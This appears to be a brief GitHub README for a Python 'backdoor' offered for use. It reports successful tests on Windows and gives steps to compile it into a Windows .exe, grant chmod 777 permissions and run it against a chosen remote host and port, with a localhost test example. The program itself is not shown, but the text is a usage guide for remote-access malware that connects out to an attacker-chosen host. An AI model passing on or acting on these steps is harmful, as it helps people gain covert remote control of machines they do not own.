 # bill_harper
* A simple backdoor write in pure Python, and the usually libs.

* It was tested for Windows OS, and it's was sucessuful! 

* In a distro linux, just use pyinstaller or cfreeze to compile the code in a .exe format. 

* Give the right permissions to the script in the terminal. 

* Something like this will be the correct to do: 

# chmod 777 main.py 

# python main <remote_host> <port_to_connect> 

* try after to test in some server... 

# python main.py 127.0.0.1 21

# setting up, in this case, the server host, and the port that will accept the connections. 



 

